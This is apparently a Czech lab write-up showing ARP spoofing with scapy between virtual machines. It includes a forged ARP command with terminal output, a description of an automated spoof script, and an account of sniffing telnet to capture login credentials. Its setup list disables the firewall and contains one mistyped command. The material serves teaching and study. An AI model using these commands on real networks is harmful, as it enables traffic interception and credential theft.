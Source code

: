 
# Manuální použití scapy pro `ARP` spoofing

```bash
[miesib@victim ~]$ ip a
[...]
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:90:ce:e9 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.10/24 brd 192.168.56.255 scope global noprefixroute enp0s8
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe90:cee9/64 scope link
       valid_lft forever preferred_lft forever

[miesib@victim ~]$ sudo yum install net-tools -y
[...]

[miesib@victim ~]$ arp -a
? (10.0.2.3) at 52:54:00:12:35:03 [ether] on enp0s3
gateway (10.0.2.2) at 52:54:00:12:35:02 [ether] on enp0s3

[miesib@victim ~]$ ping 192.168.56.12
PING 192.168.56.12 (192.168.56.12) 56(84) bytes of data.
64 bytes from 192.168.56.12: icmp_seq=1 ttl=64 time=1.60 ms
64 bytes from 192.168.56.12: icmp_seq=2 ttl=64 time=0.701 ms
^C
--- 192.168.56.12 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.701/1.154/1.608/0.454 ms

[miesib@victim ~]$ arp -a
? (192.168.56.12) at 08:00:27:07:f0:da [ether] on enp0s8
? (10.0.2.3) at 52:54:00:12:35:03 [ether] on enp0s3
gateway (10.0.2.2) at 52:54:00:12:35:02 [ether] on enp0s3

[miesib@mitm ~]$ sudo scapy
[...]
>>> arp_spoof=ARP(psrc="192.168.56.12", pdst="192.168.56.10", \
    hwsrc="08:00:27:e5:70:cd", hwdst="08:00:27:90:ce:e9", op="is-at")
>>> send(arp_spoof)
.
Sent 1 packets.

[miesib@victim ~]$ arp -a
? (192.168.56.12) at 08:00:27:e5:70:cd [ether] on enp0s8
? (10.0.2.3) at 52:54:00:12:35:03 [ether] on enp0s3
gateway (10.0.2.2) at 52:54:00:12:35:02 [ether] on enp0s3

[miesib@mitm ~]$ sudo tcpdump -i enp0s8
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on enp0s8, link-type EN10MB (Ethernet), capture size 262144 bytes
[...vvv... continues bellow after ping ...vvv...]

[miesib@victim ~]$ ping 192.168.56.12
PING 192.168.56.12 (192.168.56.12) 56(84) bytes of data.
^C
--- 192.168.56.12 ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 2001ms

[miesib@mitm ~]$ sudo tcpdump -i enp0s8
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on enp0s8, link-type EN10MB (Ethernet), capture size 262144 bytes
01:23:53.337402 IP 192.168.56.1.50662 > 239.255.255.250.ssdp: UDP, length 174
01:24:03.934897 IP 192.168.56.10 > 192.168.56.12: ICMP echo request, id 3554, seq 1, length 64
01:24:04.935319 IP 192.168.56.10 > 192.168.56.12: ICMP echo request, id 3554, seq 2, length 64
01:24:05.936971 IP 192.168.56.10 > 192.168.56.12: ICMP echo request, id 3554, seq 3, length 64
01:24:08.939550 ARP, Request who-has 192.168.56.12 tell 192.168.56.10, length 46
01:24:09.940788 ARP, Request who-has 192.168.56.12 tell 192.168.56.10, length 46
01:24:10.942858 ARP, Request who-has 192.168.56.12 tell 192.168.56.10, length 46
```

# Automatizovaný útok

Po spuštění skript odesílá každých 15 vteřin `ARP` paket s podvrženou adresou
útočníka klientovi i dalšímu síťovému prvku v cestě, zde označované jako server.

```bash
[miesib@mitm ~]$ sudo python3 shared/simple_arp_spoof.py
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
```

# Monitorování telnet provozu

Pro monitorování telnet provozu používáme skript, který provádí útok popsaný
v kapitole Automatizovaný útok. Dochází k podvržení adres v `ARP` tabulkách
virtualizovaných počítačů označených jako `server` a `client` spouštěných
pomocí nástroje `Vagrant`. Tím dochází k přesměrování provozu na stroj
útočníka označený jako `mitm`.

Následně dochází k zachytávání a filtrování komunikace pomocí `scapy.sniff` s
filtrem na požadovaný protokol (`telnet`) a cíle útoku. V zachycených
paketech nahrazujeme zdrojové a cílové `MAC` adresy, přepočítáváme kontrolní
součet a přeposíláme paket příslušnému cíli.

Obsah zachytávaných paketů zároveň vypisujeme do konzole.

Uživatelské jméno a heslo jsou zobrazeny po jejich zadání přihlašujícím se
uživatelem. Adresy serveru a klienta jsou předem specifikované v použitém
skriptu.

Výsledek je zachycen na obrázku níže.

![../src/miesib_telnet.png](../src/miesib_telnet.png)

# Tools and troubleshooting

```bash
sudo yum install net-tools -y
sudo yum install telnet -y
sudo systemctl disable --now firewalld
sudo systemctl net.ipv4.tcp_syncookies=0
sudo yum install telnet-server
sudo systemctl start telnet.socket
sudo systemctl status telnet.socket
sudo systemctl enable telnet.socket
```
